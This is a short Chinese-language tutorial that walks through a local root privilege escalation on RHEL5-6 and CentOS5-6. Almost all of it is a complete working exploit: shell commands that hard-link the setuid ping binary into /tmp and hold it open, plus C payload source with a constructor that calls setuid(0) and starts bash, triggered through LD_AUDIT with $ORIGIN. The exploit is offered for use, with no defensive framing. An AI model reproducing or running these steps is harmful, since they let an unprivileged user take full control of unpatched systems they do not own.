

利用tmp目录权限、suid 权限和C语言使普通帐号提权为ROOT权限，合适用 RHEL5-RHEL6 CENTOS5-CENTOS6 均可以提权

提权方法:

创建目录

```bash
cd /tmp 
mkdir -p /tmp/exploit
```

创建target文件硬链接

```bash
ln /bin/ping /tmp/exploit/target
```

把target文件加载到内存中

```bash
exec 3< /tmp/exploit/target
```

查看target在内存中的情况

```bash
ls -l /proc/$$/fd/3
```

删除目录

```bash
rm -rf /tmp/exploit/
```

输入c代码

```c
cat<< 'EOF' >payload.c
void __attribute__((constructor)) init()
{
  setuid(0);
  system("/bin/bash");
}
EOF
```

编译文件

```bash
gcc -w -fPIC -shared -o /tmp/exploit payload.c
```

提升root权限

```bash
LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
```

 